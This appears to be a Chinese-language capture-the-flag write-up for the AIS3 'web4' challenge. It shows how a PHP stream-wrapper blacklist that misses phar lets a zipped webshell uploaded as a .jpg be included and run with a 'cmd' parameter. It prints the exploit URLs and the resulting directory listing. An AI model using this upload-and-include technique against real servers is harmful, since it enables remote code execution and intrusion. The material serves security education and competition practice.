 ## web4
### sol
從第三題的index的source code中可以看到以下幾個部分
```php
$blacklist = ["http", "ftp", "data", "zip"];
foreach ($blacklist as &$s)
    stream_wrapper_unregister($s);
...
$pages = array(
    // disabled
    // "uploaddddddd" => "Uploads",
    "about" => "About"
);
...

<?php
include "header.php";
include $p . ".php";
?>
```
可以發現 https://quiz.ais3.org:23545/?p=uploaddddddd ，先猜要上傳webshell，而再用filter看此頁的source code

```php
function RandomString()
{
    $characters = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $randstring = "";
    for ($i = 0; $i < 9; $i++) {
        $randstring .= $characters[rand(0, strlen($characters)-1)];
    }
    return $randstring;
}

...
if(isset($_FILES["fileToUpload"]))
{
    $filename = basename($_FILES['fileToUpload']['name']);
    $imageFileType = pathinfo($filename, PATHINFO_EXTENSION);
    if($imageFileType == "jpg")
    {
        $uploadOk = 1;
    }
    ...
if($uploadOk)
{
    $ip = $_SERVER["REMOTE_ADDR"];

    $dir = "$target_dir/$ip";
    if(!is_dir($dir))
        mkdir($dir);

    $newid = RandomString();
    $newpath = "$dir/$newid.jpg";
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $newpath))
    {
        header("Location: $newpath");
        exit();
    }
    ...
}
?>
```
上傳是用whitelist檢查，extension必須為jpg，而且上傳後會重新命名為`[0-9a-zA-Z]{9}.jpg`，因此在local端取什麼filename都不影響，而試過基本的jpg沒辦法直接執行，因此要透過`index.php`的`include`將webshell include進去。

由於會強制補上`.php`，且php版本較新，舊有的NULL byte injection試過也行不通，最後試了幾種stream wrapper，發現blacklist獨漏了[phar](http://php.net/manual/en/phar.using.stream.php)，將shell.php(include最後會補上.php，因此副檔名要是php)壓縮為zip之後上傳，請求
```
https://quiz.ais3.org:23545/?p=phar://[your_ip]/[random].jpg/shell
```
可以發現成功include了shell，接著加上要執行的指令參數
```
https://quiz.ais3.org:23545/?cmd=ls&p=phar://[your_ip]/[random].jpg/shell
```
就可以看到flag的檔案了
```
about.php
css
header.php
home.php
images
img
index.php
js
the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l
uploaddddddd.php
```
最後直接從browser開啟 https://quiz.ais3.org:23545/the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l 就能看到flag了
